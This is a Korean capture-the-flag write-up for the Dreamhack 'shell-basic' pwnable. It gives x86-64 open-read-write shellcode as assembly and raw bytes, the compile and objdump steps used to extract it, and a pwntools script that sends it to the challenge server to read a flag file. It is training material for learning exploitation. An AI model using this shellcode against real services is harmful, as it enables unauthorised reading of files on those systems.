 ```yaml
---
title: "[pwn]shell-basic"
category: Pwnable
excerpt: "dreamhack shell-basic writeup"
toc: true
toc_label: "Table of Contents"
toc_sticky: true
toc_icon: "bars"
---
```


# shell-basic
처음 풀어보는 포너블 문제라 감도 안왔지만 튜토리얼로 어느정도는 따라갈 수 있었다. 

## assembly
~~~
__asm__(
	".global main\n"
        "main:\n"

	"xor rax,rax\n"
	"push rax\n"
        "mov rax,0x676E6F6F6F6F6F6F\n"
	"push rax\n"
        "mov rax,0x6C5F73695F656D61\n"
        "push rax\n"
	"mov rax,0x6E5F67616C662F63\n"
        "push rax\n"
	"mov rax,0x697361625F6C6C65\n"
        "push rax\n"
	"mov rax,0x68732F656D6F682F\n"
        "push rax\n"
	"mov rdi,rsp\n"
        "xor rsi,rsi\n"
        "xor rdx,rdx\n"
	"xor rax,rax\n"
	"add rax,0x2\n"
        "syscall\n"
	"\n"
        "mov rdi,rax\n"
	"mov rsi,rsp\n"
	"sub rsi,0x30\n"
        "xor rax,rax\n"
	"xor rdx,rdx\n"
	"add rdx,0x30\n"
        "syscall\n"
	"\n"
	"xor rdi,rdi\n"
	"add rdi,0x1\n"
	"xor rax,rax\n"
	"add rax,0x1\n"
        "syscall");
~~~

## 풀이
1. 환경 조사  
**file shell_basic** 을 통해 환경을 먼저 조사한다. amd64 환경인 것을 알 수 있다.   
2. 파일경로 push  
먼저 12번부터 16번까지는 stack에 file location을 string의 형태로 넣었다. 우연인지 파일 경로가 8byte에 맞아 떨어지므로 \0을 마지막에 넣어주기 위해 0을 먼저 push해주었다.   
이때 shell code에는 \x00이 포함되면 안되므로 mov rax,0x0보다는 xor rax,rax를 해주는 것이 맞다.  
3. system call  
그 이후에는 SYS_OPEN의 변수에 맞게 넣어주면 된다. SYS_OPEN(const char \*filename,int flags,umode_t mode)에 flags=0, mode=null 을 넣어준 것이다.   
나머지 SYS_READ(unsigned int fd,char \*buf,size_t count), SYS_WRITE(unsigned int fd,char \*buf,size_t count) 함수의 parameter에 맞게 넣어주면 된다.  
4. gcc  
**gcc -o orw orw.c -masm=intel** 명령어를 통해 컴파일한다.  
5. objdump  
**objdump -d ./orw** 명령어로 opcode를 추출한다.   
<img width="605" alt="opcode" src="https://user-images.githubusercontent.com/45323902/154000690-ae589c0c-4fb5-46fa-823f-0cd0e2fd155d.png">  
여기서 마지막 syscall까지만 추출하면 된다.  
6. script  
~~~
	from pwn import *

	p=remote('host1.dreamhack.games',22700)

	p.recvuntil(b'shellcode:')
	exploit=b'\x48\x31\xc0\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x48\x83\xc0\x02\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\x48\x31\xc0\x48\x31\xd2\x48\x83\xc2\x30\x0f\x05\x48\x31\xff\x48\x83\xc7\x01\x48\x31\xc0\x48\x83\xc0\x01\x0f\x05'
	p.send(exploit)
	p.interactive()
~~~
이처럼 python script를 이용해 shellcode를 전달하면 함수 내부에서 shellcode를 메모리에 넣고 실행하게 된다.  
<img width="725" alt="script exec" src="https://user-images.githubusercontent.com/45323902/154001147-99dffd0e-0229-4787-888c-b8560b906d1e.png">  
여기서 flag이후 다른 문자열이 나오는 이유는 buf size가 0x30인데 flag가 그보다 짧아 메모리에 있는 다른 내용까지 출력하게 된 것이다.
